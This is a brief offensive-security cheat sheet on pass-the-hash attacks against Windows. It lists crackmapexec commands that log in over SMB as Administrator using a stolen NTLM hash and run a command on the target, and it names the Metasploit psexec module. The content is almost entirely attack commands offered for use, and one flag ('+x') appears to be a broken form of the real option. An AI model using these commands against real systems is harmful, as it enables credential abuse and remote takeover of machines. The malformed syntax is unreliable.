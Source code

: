 # Pass the Hash Technique

**Using Crackmapexec**  
```crackmapexec smb (ip address) -u Administrator -H "(hash in quotes)"```  
Running commands  
```crackmapexec smb (ip address) -u Administrator -H "(hash in quotes)" +x "ipconfig"```

**Using PSexec**  
Metasploit Module: exploit/windows/smb/psexec
